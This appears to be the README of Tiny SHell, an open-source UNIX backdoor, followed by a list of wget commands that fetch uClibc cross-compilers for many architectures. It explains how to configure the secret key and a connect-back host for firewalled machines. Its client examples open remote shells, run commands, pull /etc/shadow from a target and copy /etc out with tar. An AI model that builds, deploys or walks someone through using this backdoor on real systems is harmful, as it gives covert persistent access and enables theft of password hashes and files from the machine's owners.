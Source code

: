 

                 Tiny SHell - An open-source UNIX backdoor


    * Before compiling Tiny SHell

        1. First of all, you should setup your secret key, which
           is located in tsh.h; the key can be of any length (use
           at least 12 characters for better security).

        2. It is advised to change SERVER_PORT, the port on which
           the server will be listening for incoming connections.

        3. You may want to start tshd in "connect-back" mode if
           it runs on on a firewalled box; simply uncomment and
           modify CONNECT_BACK_HOST in tsh.h.

    * Compiling Tiny SHell

        Run "make <system>", where <system> can be any one of these:
        linux, freebsd, openbsd, netbsd, cygwin, sunos, irix, hpux, osf

    * How to use the server

        It can be useful to set $HOME and the file creation mask
        before starting the server:

            % umask 077; HOME=/var/tmp ./tshd

    * How to use the client

        Make sure tshd is running on the remote host. You can:

        - start a shell:

            ./tsh <hostname>

        - execute a command:

            ./tsh <hostname> "uname -a"

        - transfer files:

            ./tsh <hostname> get /etc/shadow .
            ./tsh <hostname> put vmlinuz /boot

        Note: if the server runs in connect-back mode, replace
        the remote machine hostname with "cb".

    * About multiple file transfers

        At the moment, Tiny SHell does not support scp-like multiple
        and/or recursive file transfers. You can work around this bug
        by simply making a tar archive and transferring it. Example:

        ./tsh host "stty raw; tar -cf - /etc 2>/dev/null" | tar -xvf -

    * About terminal modes

        On some brain-dead systems (actually, IRIX and HP-UX), Ctrl-C
        and other control keys do not work correctly. Fix it with:

            % stty intr "^C" erase "^H" eof "^D" susp "^Z" kill "^U"

    * About security

        Please remember that the secret key is stored in clear inside
        both tsh and tshd executables; therefore you should make sure
        that no one except you has read access to these two files.
        However, you may choose not to store the real (valid) key in
        the client, which will then ask for a password when it starts.



linux cross compile

```
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-x86_64.tar.bz2 

tar -xzvf cross-compiler-x86_64.tar.bz2 

wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2

tar -xzvf cross-compiler-armv4l.tar.bz2

wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2

tar -xzvf cross-compiler-i586.tar.bz2

wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2

tar -xzvf cross-compiler-m68k.tar.bz2

wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2

tar -xzvf cross-compiler-mips.tar.bz2

wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2

tar -xzvf cross-compiler-mipsel.tar.bz2

wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2

tar -xzvf cross-compiler-powerpc.tar.bz2

wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2

tar -xzvf cross-compiler-sh4.tar.bz2

wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2

tar -xzvf cross-compiler-sparc.tar.bz2

```